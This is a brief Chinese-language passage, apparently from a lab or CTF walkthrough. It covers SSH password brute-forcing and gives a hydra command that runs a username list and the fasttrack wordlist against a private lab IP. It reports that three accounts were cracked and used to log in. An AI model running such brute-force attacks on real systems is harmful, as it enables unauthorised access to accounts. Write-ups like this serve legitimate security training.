 

# 密码爆破

目前只有大量的用户名，并没有其他东西，以之前整理后的`user`，进行密码爆破

```shell
hydra -L username -P /usr/share/wordlists/fasttrack.txt 192.168.10.12 ssh
```

![](./pic/25.jpg)

爆破出三个，随便以这用户进行登录，发现基本上没有什么内容，并且用户众多
